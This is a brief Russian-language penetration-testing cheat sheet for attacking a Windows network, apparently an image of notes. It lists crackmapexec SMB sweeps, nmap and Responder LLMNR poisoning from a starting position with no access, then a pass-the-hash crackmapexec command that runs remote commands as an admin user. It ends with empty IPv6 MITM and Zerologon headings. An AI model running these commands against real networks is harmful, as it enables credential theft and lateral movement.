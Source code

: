 Нет ничего
```
crackmapexec smb 192.168.10.0/24
nmap
sudo responder -I eth0 -wFv
```

MITM IPv6
Включено IPv6 


Есть NTLM hash
```
crackmapexec smb 192.168.10.200 -u AdmPetr -H -x 
```





Zerologon
Вход: 
	NTLMv2 авторизация машинной УЗ
Действия:

Выход: